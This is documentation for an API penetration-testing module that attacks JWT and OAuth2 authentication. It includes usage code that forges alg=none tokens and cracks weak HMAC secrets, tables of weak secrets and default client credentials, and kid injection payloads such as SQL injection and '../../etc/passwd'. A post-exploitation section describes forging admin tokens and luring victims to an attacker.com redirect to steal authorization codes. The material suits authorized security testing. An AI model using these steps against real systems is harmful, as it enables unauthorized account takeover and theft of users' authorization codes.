

# API Authentication and Token Checks

Scan live API responses for JWT tokens, test `alg=none` bypass and weak HMAC secrets, probe OAuth2/OIDC authorization server metadata, attempt `redirect_uri` manipulation and default client credentials, enumerate exposed JWKS endpoints, and verify PKCE and rate-limiting enforcement: as part of the broader `api_re.py` assessment workflow.

---

## Why this exists

1. **JWT tokens are transmitted in API responses and response headers, not just in auth endpoints.** Any endpoint that returns a 200 response may embed a JWT in its body or headers `Authorization`, `Set-Cookie`, `X-Auth-Token`. `analyze_tokens_in_response()` scans all discovered endpoints, not just `/auth` or `/login`, using a structural regex (`eyJ[A-Za-z0-9_-]+\.eyJ[A-Za-z0-9_-]+\.[A-Za-z0-9_-]*`) that matches by the Base64url-encoded `{"` prefix: catching tokens embedded in JSON responses, HTML pages, and custom headers alike.

2. **`alg=none` and weak HMAC secrets are exploitable in minutes but require server-side confirmation.** The `alg=none` bypass forges a new token with `"alg":"none"` and an empty signature, then replays it on the same endpoint: confirmation comes from the server returning anything other than 401. Weak secret cracking iterates 18 known-weak HMAC keys including `""`, `"secret"`, `"HS256"`, `"your-256-bit-secret"` and verifies each candidate by computing `HMAC-SHA{256,384,512}header.payload, candidate` and comparing to the token's signature bytes. Both attacks produce confirmed exploits, not theoretical findings.

3. **OAuth2/OIDC attack surface spans 13 discovery paths, redirect URI validation, scope escalation, PKCE downgrade, and default client credentials.** An authorization server with no PKCE requirement allows code injection attacks from public clients. An open `redirect_uri` allows authorization code theft. Default client credentials `client:secret`, `admin:admin` against the token endpoint grant immediate access. These checks require live interaction with the authorization server: static analysis of the API docs does not reveal them.

---

## How it works



### JWT weak secret dictionary 18 entries

| Secret | | Secret | |
|---|---|---|---|
| `""` empty string | | `"secret"` | |
| `"password"` | | `"123456"` | |
| `"qwerty"` | | `"admin"` | |
| `"test"` | | `"jwt"` | |
| `"token"` | | `"key"` | |
| `"api_key"` | | `"change_me"` | |
| `"your-256-bit-secret"` | | `"supersecret"` | |
| `"HS256"` | | `"HS512"` | |
| `"your-secret-key"` | | `""` | |

### OAuth2 default client credentials tested

| `client_id` | `client_secret` |
|---|---|
| `client` | `secret` |
| `app` | `secret` |
| `test` | `test` |
| `admin` | `admin` |
| `default` | `default` |
| `web` | `web` |

---

## Usage

```python
from modules.api_re import (
    analyze_tokens_in_response,
    probe_oauth2,
    decode_jwt_unsafe,
    forge_jwt_alg_none,
    crack_jwt_secret,
    fuzz_paths,
    parse_openapi,
    harvest_openapi,
    Endpoint,
)

base = 'http://target:8080'

# Step 1: Build endpoint list (needed for token scan)
spec = harvest_openapi(base)
endpoints = parse_openapi(spec) if spec else []
if not endpoints:
    raw_found = fuzz_paths(base, workers=20)
    endpoints = [Endpoint(path=p, methods=[m]) for (p, m) in raw_found.keys()]

# Step 2: JWT token discovery + attack chain
jwt_findings = analyze_tokens_in_response(base, endpoints)
for f in jwt_findings:
    if f.get('type') == 'alg_none_bypass':
        print(f"CONFIRMED: alg=none bypass on {f['endpoint']} → status {f['status']}")
    elif f.get('type') == 'weak_jwt_secret':
        print(f"CONFIRMED: weak JWT secret = {f['secret']!r} on {f['endpoint']}")
    elif f.get('type') == 'jwt_jku_ssrf':
        print(f"SSRF VECTOR: jku header present → {f['url']}")
    elif f.get('type') == 'jwt_kid_present':
        print(f"KID INJECTION SURFACE: kid={f['kid']!r} on {f['endpoint']}")

# Step 3: Manual token analysis
raw_token = 'eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyIjoiYWRtaW4ifQ.abc'
decoded = decode_jwt_unsafe(raw_token)
if decoded:
    header, payload = decoded
    print(f"alg={header.get('alg')}  payload={payload}")
    # Attempt alg=none forge
    forged = forge_jwt_alg_none(raw_token)
    print(f"Forged (alg=none): {forged}")
    # Crack secret
    secret = crack_jwt_secret(raw_token)
    if secret is not None:
        print(f"Secret cracked: {secret!r}")

# Step 4: OAuth2/OIDC attack surface
oauth_findings = probe_oauth2(base)
for f in oauth_findings:
    if f.get('type') == 'oauth2_default_client':
        print(f"DEFAULT CLIENT CREDS: {f['client_id']} issued token={f['token']}")
    elif f.get('type') == 'redirect_uri_open':
        print(f"OPEN REDIRECT: {f['uri']} accepted → code theft possible")
    elif f.get('type') == 'jwks_exposed':
        print(f"JWKS EXPOSED at {f['url']}: {f['data'][:100]}")
```

---

## Example output

```
  [JWT] Found at /api/v1/users: alg=HS256 | payload_keys=['user_id', 'role', 'exp']
  [JWT_ALG_NONE] alg=none accepted at /api/v1/users: 200
  [JWT_WEAK_SECRET] Secret found: 'secret' at /api/v1/orders
  [JWT_KID] kid='keys/signing.pem' — potential SQLi/path traversal in key lookup
  [JWT_SSRF] jku='http://attacker.com/jwks.json' — JWK URL SSRF possible

  Probing OAuth2/OIDC metadata...
  [OAUTH2_META] /.well-known/openid-configuration: ['issuer', 'token_endpoint', 'authorization_endpoint', 'jwks_uri']
  [JWKS] https://auth.target.internal/jwks: {"keys":[{"kty":"RSA","kid":"default","n":"...
  [OAUTH2_REDIRECT_URI] https://evil.com not rejected: 302
  [OAUTH2_DEFAULT_CREDS] client=admin:admin issued token!

JWT findings: 5
OAuth2 findings: 4
```

---

## False positives

**`alg=none` replay returns non-401 but access is still denied.** Some APIs return 200 with an error body when authentication fails: the response body contains `"error": "invalid_token"` even though the status code is 200. The test reports `alg=none bypass` based on status code. Before writing the finding, confirm the forged token response body contains data equivalent to an authenticated response, not an error payload with a 200 wrapper.

**`kid` present does not mean injection is exploitable.** Many compliant JWT libraries use `kid` to select among multiple valid signing keys by ID. The finding flags structural risk, not confirmed injection. Confirm exploitability by: (1) sending a token with `"kid": "' OR 1=1--"` and observing whether signature verification still passes, or (2) sending `"kid": "../../etc/passwd"` and observing the server's key-lookup error versus a signature verification error. Different error messages confirm different sink types.

**OAuth2 `redirect_uri` non-rejection on informational status codes.** The test rejects only responses with status 400 or 422. Some authorization servers return 401, 403, or 200 with an error JSON for invalid redirect URIs. A 302 response to `evil.com` with a `Location: evil.com?code=...` parameter is unambiguous confirmation; a 302 to the legitimate callback with no redirect to `evil.com` is not. Always check the `Location` header in any redirect response.

---

## Pipeline position

**Before this module:** Run `fuzz_paths()` and `harvest_openapi()` to build the endpoint list: `analyze_tokens_in_response()` requires an `Endpoint` list covering the full API surface, not just auth endpoints. Run `probe_rate_limiting()` on the auth endpoints after JWT testing: an API with neither rate limiting nor JWT expiry on auth endpoints has unbounded brute-force exposure.

**After this module:** If `alg=none` bypass confirmed: escalate to admin role: decode the original payload, add `"role": "admin"` or equivalent, forge with `alg=none`, replay on admin-gated endpoints. If weak secret confirmed: compute a valid admin token offline using the recovered key: `hmac.new(secret.encode(), header.payload, hashlib.sha256).digest()` and `base64.urlsafe_b64encode(sig).rstrip(b'=')` constructs the new signature. If OAuth2 `redirect_uri` confirmed: simulate the full code-theft flow: lure a victim to the authorization URL with `redirect_uri=https://attacker.com/callback` and capture the authorization code.

---

## Reading findings

| Field | Content |
|:---|:---|
| `f['type'] == 'alg_none_bypass'` | JWT accepted with `alg=none`: signature verification disabled |
| `f['type'] == 'weak_jwt_secret'` | HMAC secret cracked; `f['secret']` contains the plaintext key |
| `f['type'] == 'jwt_kid_present'` | `kid` header present; `f['kid']` is the key lookup value |
| `f['type'] == 'jwt_jku_ssrf'` | `jku`/`x5u` header points to attacker-controlled JWKS URL |
| `f['type'] == 'oauth2_default_client'` | Default `client_id:client_secret` issued a token |
| `f['type'] == 'redirect_uri_open'` | Authorization server accepted a non-whitelisted redirect URI |
| `f['type'] == 'jwks_exposed'` | JWKS endpoint is publicly accessible; public key material exposed |

---

## See also

- [API Reverse Engineering](api-re.md): full 15-phase workflow including this auth subsystem
- [Media and Signaling Posture](media-and-signaling-posture.md): SIP/Asterisk default credential testing for VoIP targets
- [Agent Protocol Exposure](agent-protocol-exposure.md): token/API key checks for AI agent control plane endpoints
